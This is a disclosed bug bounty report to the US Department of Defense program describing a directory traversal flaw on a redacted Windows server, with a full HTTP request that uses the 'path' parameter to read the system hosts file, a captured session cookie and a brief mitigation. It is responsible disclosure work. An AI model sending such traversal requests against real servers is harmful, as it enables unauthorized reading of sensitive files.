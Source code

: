 # Directory Traversal at █████

## Report Details
- **Report ID**: 1641148
- **URL**: https://hackerone.com/reports/1641148
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-07-18T20:47:02.448Z
- **Disclosed**: 2022-09-14T20:27:13.810Z

## Reporter
- **Username**: 0x45
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi  DoD!

I found directory traversal vulnerability at ████. I didn't find available title for this issue that's why I selected remote file inclusion.

###  Host: ██████
###  Vulnerability: Directory Traversal in Windows Server
###  Tool Used: BurpSuite

### Parameter:  ==path==

###HTTP GET Request###
==GET /File/Download?path=C:/WINDOWS/System32/drivers/etc/hosts==

### Response

███

## Impact

Attacker could read sensitive file in server

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Make HTTP Request like that;

GET /File/Download?path=C:/WINDOWS/System32/drivers/etc/hosts HTTP/1.1
Host: ███
Cookie: .AspNetCore.Antiforgery.GupjSGuR2ZQ=CfDJ8GfYfRi9j8NNoBU6zVTpTKTbaG72CuADzxVVYVr9efssbxXYtgzCMF2H6PvdOcF0RxMExCsaObiVNuop1ouJa2Nb0k3z4KYTy2ih_nRbxREcZZo-3LBJPXq05kvRrRF6p02TakoqGzC6VUTdPRw-bo8; TimeZoneOffset=-240
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

## Suggested Mitigation/Remediation Actions
Input Validation for path parameter



## Attachments
No attachments
